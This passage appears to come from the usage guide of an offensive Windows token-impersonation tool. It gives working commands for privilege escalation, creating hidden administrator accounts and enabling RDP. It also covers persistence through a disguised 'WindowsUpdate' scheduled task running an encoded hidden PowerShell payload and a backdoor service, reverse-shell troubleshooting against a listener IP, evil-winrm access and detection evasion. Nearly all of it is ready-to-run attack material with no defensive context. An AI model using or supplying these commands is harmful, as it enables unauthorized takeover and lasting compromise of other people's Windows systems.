 # It will:
# 1. Find all matching processes
# 2. Try each one automatically
# 3. Skip protected processes
# 4. Stop when one succeeds
4. Chain Commands for Speed
powershell# Create backdoor + enable RDP in one go
.\TokenImpersonate.exe 540 adduser hacker Pass123! && .\TokenImpersonate.exe 540 rdp

# Or use && to chain operations
.\TokenImpersonate.exe brute Administrator adduser hacker Pass123! && net localgroup Administrators
5. Persistence Techniques
powershell# Method 1: Hidden admin account
.\TokenImpersonate.exe 540 adduser sysupdate P@ssw0rd123!
net user sysupdate /active:yes

# Method 2: Enable RDP for remote access
.\TokenImpersonate.exe 540 rdp

# Method 3: Add to scheduled task (manual)
# In SYSTEM cmd spawned by tool:
schtasks /create /tn "WindowsUpdate" /tr "powershell -w hidden -enc <base64>" /sc onlogon /ru SYSTEM

# Method 4: Service creation
sc create "WindowsUpdateService" binPath= "C:\Windows\Tasks\backdoor.exe" start= auto
sc start "WindowsUpdateService"
6. Troubleshooting Failed Shells
powershell# If shell doesn't connect, test network first
Test-NetConnection -ComputerName 192.168.19.128 -Port 4444

# Check if PowerShell is blocked
Get-MpPreference | Select ExclusionPath

# Try different execution methods
.\TokenImpersonate.exe 540 adduser hacker Pass123!
# Then use evil-winrm instead:
evil-winrm -i <target> -u hacker -p Pass123!
7. Avoiding Detection
powershell# 1. Use low-profile SYSTEM processes (not services.exe)
.\TokenImpersonate.exe list | findstr "spoolsv\|SearchIndexer"
